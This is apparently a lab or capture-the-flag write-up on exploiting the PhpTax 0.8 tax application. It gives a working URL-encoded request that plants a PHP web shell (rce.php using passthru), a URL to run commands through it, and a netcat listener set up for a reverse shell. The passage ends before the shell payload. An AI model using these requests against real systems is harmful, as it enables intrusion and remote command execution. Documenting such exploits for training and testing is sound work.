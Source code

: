 The website is running a tax filing application called `phptax`. This application is written in PHP.

![[website2-7.png|540]]

I searched online for `phptax` exploits. 2 RCE exploits were available for the application. The exploit that I used first did not work.

[PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution](https://www.exploit-db.com/exploits/25849)

The above script creates a file on the target that can then be used to execute arbitrary commands. I performed the steps shown in the script manually. The important lines from the code have been highlighted in the image below.

![[exploit-1.png|500]]

I appended the string that is shown on the 2nd line to the end of the URL for the `phptax` site. The string contains URL-encoded data. `CyberChef` can be used to view the decoded string.

[CyberChef - The Cyber Swiss Army Knife](https://0x1.gitlab.io/code/CyberChef/)

![[exploit-4.png|640]]

The URL creates a file called `rce.php` on the target. The file will contain the text `<?php passthru($_GET[cmd]);?>`. The `passthru()` function makes it possible to execute system commands using PHP.

[PHP: passthru - Manual](https://www.php.net/manual/en/function.passthru.php)

```
http://10.6.6.15:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
```

When the URL is used there will be no change on the webpage.

![[exploit-2.png|640]]

To test if the `rce.php` file is created, in a new tab I ran the following:

```
http://10.6.6.15:8080/phptax/data/rce.php?cmd=id
```

![[exploit-3.png|460]]

If you get the result of the `id` command the file was created successfully.

### Remote Shell

Now that I could execute commands on the target the new step was to set up a reverse shell to explore and navigate the system.

Using `netcat` I setup a listener on port 9000

```bash
netcat -nvlp 9000
```
